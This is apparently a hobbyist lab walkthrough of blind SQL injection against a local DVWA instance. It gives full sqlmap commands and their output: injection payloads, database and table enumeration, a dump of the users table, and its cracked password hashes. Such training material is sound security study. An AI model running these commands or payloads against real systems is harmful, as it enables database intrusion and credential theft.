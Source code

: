 
#### Background context
Blind SQL map is quite an annoying web app vulnerability for me, Ive created this as a sort of reference for those who also hate it and wish to find an automated method of exploiting it, its very VERY straight forward so ill be 

# Command breakdown
So the first command will be broken down
`sqlmap -u "http://localhost/vulnerabilities/sqli_blind/" --cookie="id=10; PHPSESSID=pu1f0eqnkkk5r8363ntt4fk7h1; security=medium" --data="id=1&Submit=Submit" -p id --dbs` 
### Parameters explained
- -u
	- For the URL
- -cookie
	- For the cookie being used, take into consideration that the cookie for DVWA is rather long where the cookie is `PPSESSID=` and `security=`
- -- data
	- We’ll need --data=DATA to input our data string to be sent through POST, so the entire data string here is `id=1&Submit=Submit`
- -p
	- meaning the parameter in which we modify our payload it being `id` in this case
- --dbs
	- Enumerates the database



```
kali@kali ~> sqlmap -u "http://localhost/vulnerabilities/sqli_blind/" --cookie="id=10; PHPSESSID=pu1f0eqnkkk5r8363ntt4fk7h1; security=medium" --data="id=1&Submit=Submit" -p id --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.7#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


........

POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 241 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 7298=7298&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5390 FROM (SELECT(SLEEP(5)))YfNg)&Submit=Submit
---
[07:48:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[07:48:22] [INFO] fetching database names
[07:48:22] [INFO] fetching number of databases
[07:48:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[07:48:22] [INFO] retrieved: 2
[07:48:22] [INFO] retrieved: dvwa
[07:48:22] [INFO] retrieved: information_schema
available databases [2]:
[*] dvwa
[*] information_schema

```

so now we know the available databases

# Command pt.2 
here now that we have this information its time for us to enumerate for the database for its tables
`sqlmap -u "http://localhost/vulnerabilities/sqli_blind/" --cookie="id=10; PHPSESSID=pu1f0eqnkkk5r8363ntt4fk7h1; security=medium" --data="id=1&Submit=Submit" -p id -D dvwa --tables --batch --threads 5`

### Parameter breakdown
- -D
	- Refers to the name of the database we want to enumerate
- --tables
	- This command allows us to enumerate table names inside of the database
- --batch
	- This instructs SQLMAP to answer with default values
- --threads 5
	- Purely to just speed things up, completely optional

```
kali@kali ~> sqlmap -u "http://localhost/vulnerabilities/sqli_blind/" --cookie="id=10; PHPSESSID=pu1f0eqnkkk5r8363ntt4fk7h1; security=medium" --data="id=1&Submit=Submit" -p id -D dvwa --tables --batch --threads 5
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[08:00:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[08:00:53] [INFO] fetching tables for database: 'dvwa'
[08:00:53] [INFO] fetching number of tables for database 'dvwa'
[08:00:53] [INFO] retrieved: 2
[08:00:53] [INFO] retrieving the length of query output
[08:00:53] [INFO] retrieved: 9
[08:00:54] [INFO] retrieved: guestbook           
[08:00:54] [INFO] retrieving the length of query output
[08:00:54] [INFO] retrieved: 5
[08:00:54] [INFO] retrieved: users           
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

```



# Command pt.3

Here we want to dump all of the contents on here using this command `sqlmap -u "http://localhost/vulnerabilities/sqli_blind/" --cookie="id=10; PHPSESSID=39qedittgtbc7rfsm69gjvidl0; security=medium" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump`

### Parameter breakdown
- -T
	- Instead of -D dvwa, we replaced it with -T which is Table and give it the name users
- --dump
	- is used to dump the tables contets

```
kali@kali ~> sqlmap -u "http://localhost/vulnerabilities/sqli_blind/" --cookie="id=10; PHPSESSID=pu1f0eqnkkk5r8363ntt4fk7h1; security=medium" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:11:34 /2023-09-13/

[08:11:35] [INFO] resuming back-end DBMS 'mysql' 
[08:11:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 7298=7298&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5390 FROM (SELECT(SLEEP(5)))YfNg)&Submit=Submit
---
..................................................................................
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[08:12:02] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[08:12:02] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[08:12:02] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[08:12:02] [INFO] starting 4 processes 
[08:12:04] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                             
[08:12:05] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                            
[08:12:08] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'                            
[08:12:09] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                           
Database: dvwa                                                                                                      
Table: users
[5 entries]
+---------+---------+-----------------------------+-----------+---------------------------------------------+------------+---------------------+--------------+
| user_id | user    | avatar                      | last_name | password                                    | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+-----------+---------------------------------------------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | Me        | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Hack       | 2023-07-01 08:40:57 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | admin     | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin      | 2023-07-01 08:40:57 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | Brown     | e99a18c428cb38d5f260853678922e03 (abc123)   | Gordon     | 2023-07-01 08:40:57 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | Picasso   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Pablo      | 2023-07-01 08:40:57 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | Smith     | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Bob        | 2023-07-01 08:40:57 | 0            |
+---------+---------+-----------------------------+-----------+---------------------------------------------+------------+---------------------+--------------+

[08:12:15] [INFO] table 'dvwa.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/dvwa/users.csv'

```


boom :))


